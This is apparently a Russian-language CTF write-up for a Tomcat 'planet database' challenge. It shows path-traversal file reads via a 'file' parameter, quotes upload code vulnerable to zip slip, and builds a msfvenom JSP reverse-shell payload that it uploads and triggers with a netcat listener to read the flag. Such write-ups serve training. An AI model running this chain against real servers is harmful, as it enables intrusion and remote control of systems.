


# Тайна четвертой планеты

На главной странице находится база известных планет. Попробуем взглянуть на одну из них:



С ходу бросается в глаза GET параметр **file**. Давайте попробуем поменять его значние, скажем, на `../../../../../etc/passwd`



Отлично, мы нашли LFI. Теперь можем ликнуть исходный код:

```bash
$ curl https://its-planetdb-aywslqa6.spbctf.ru/view.jsp?file=../../../../../../usr/local/tomcat/webapps/ROOT/index.jsp
$ curl https://its-planetdb-aywslqa6.spbctf.ru/view.jsp?file=../../../../../../usr/local/tomcat/webapps/ROOT/view.jsp
$ curl https://its-planetdb-aywslqa6.spbctf.ru/view.jsp?file=../../../../../../usr/local/tomcat/webapps/ROOT/upload.jsp
```

В *upload.jsp* есть возможность загрузки ZIP архивов, однако имена файлов никак не валидируются:

```java
if (fileName.endsWith(".zip")) {
    try (ZipInputStream zis = new ZipInputStream(item.getInputStream())) {
        ZipEntry zipEntry;

        while ((zipEntry = zis.getNextEntry()) != null) {
            String zipEntryName = zipEntry.getName();
            String savePath = "/usr/local/tomcat/webapps/ROOT/markdowns/" + File.separator + zipEntryName;
            File newFile = new File(savePath);
            new File(newFile.getParent()).mkdirs();

            try (FileOutputStream fos = new FileOutputStream(newFile)) {
                int len;
                byte[] buffer = new byte[1024];

                while ((len = zis.read(buffer)) > 0) {
                    fos.write(buffer, 0, len);
                }
            }
            
        }
    }
}
```

А значит теперь у нас есть **Arbitrary Write**. Так как текущий пользователь может записывать в */usr/local/tomcat/webapps/ROOT/* мы легко можем получить RCE. Подготовим payload:

```bash
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=host LPORT=port -o rce.jsp
$ mkdir 1 && cd 1
$ zip payload.zip ../rce.jsp
```

Загрузим архим и получим шелл:

```bash
$ nc -nlvp port
$ curl https://its-planetdb-aywslqa6.spbctf.ru/rce.jsp
```

Флаг лежал в корне:

```bash
$ ls /
...
flag-YEOdT2KINQ96.txt
...

$ cat /flag-YEOdT2KINQ96.txt
its{5uDD3n_d1amOND_du57_D373C7ed_In_7he_C0Gs_oF_pl4neTDb}
```